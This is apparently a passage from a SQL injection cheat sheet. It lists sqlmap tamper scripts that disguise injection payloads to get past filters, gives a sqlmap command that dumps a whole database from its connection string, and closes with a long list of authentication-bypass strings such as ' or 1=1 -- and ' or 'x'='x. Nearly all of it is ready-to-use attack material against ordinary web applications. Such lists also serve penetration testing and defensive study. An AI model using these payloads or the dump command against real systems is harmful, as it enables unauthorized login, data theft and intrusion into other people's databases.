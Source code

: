 |space2randomblank.py | Replaces space character (' ') with a random blank character from a valid set of alternate characters |
|symboliclogical.py | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||) |
|unionalltounion.py | Replaces UNION ALL SELECT with UNION SELECT |
|unmagicquotes.py | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work) |
|uppercase.py | Replaces each keyword character with upper case value 'INSERT'|
|varnish.py | Append a HTTP header 'X-originating-IP' |
|versionedkeywords.py | Encloses each non-function keyword with versioned MySQL comment |
|versionedmorekeywords.py | Encloses each keyword with versioned MySQL comment |
|xforwardedfor.py | Append a fake HTTP header 'X-Forwarded-For'|

### SQLmap without SQL injection

You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap.py -d "mysql://user:pass@ip/database" --dump-all 
```

## Authentication bypass

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
```